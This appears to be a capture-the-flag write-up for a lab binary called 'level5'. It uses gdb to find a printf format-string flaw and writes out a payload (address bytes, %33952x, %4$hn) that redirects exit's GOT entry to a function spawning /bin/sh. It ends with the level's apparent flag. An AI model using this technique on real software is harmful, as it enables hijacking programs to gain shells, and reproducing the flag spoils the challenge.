 solution level5:

-> gdb level5

-> the main simply calls function "n"

-> we disassemble function n and we can observe the following:
- some space is allocated on the stack
- the function fills a buffer with a call to fgets
- next the printf method is called with the buffer passed as argument
- finally the exit method is called

-> by looking at the existing functions in the program with "i func", we notice another function called "o"

-> "o" simply calls the system method to open a new shell (/bin/sh) then calls exit

-> we need to find a way to call "o", and we know that we can exploit the printf method to modify the memory of our program

-> since the next and only instruction after printf is the call to exit, we are going to make that instruction call function "o" instead:
> (gdb) disass exit
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>:	jmp    DWORD PTR ds:0x8049838
...
The exit method makes a jump to address 0x08049838; this will be the address to replace.
The address of function "o" is 0x080484a4. Therefore we need to replace the last 2 bytes by 84a4, which is 33956 in decimal.

-> our buffer will contain:
- the address to replace -> \x38\x98\x04\x08
- our number minus the size of the address above : 33956 - 4 = 33952 -> %33952x
- the %n modifier, but only half of the address needs to be changed, so we'll use the size specifier 'h'. We also need to indicate the argument index, which is 4 -> %4$hn

> scp -P 2222 Ressources/run.sh level5@127.0.0.1:/tmp/

> bash /tmp/run.sh
> cat /tmp/buff - | ./level5
> d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
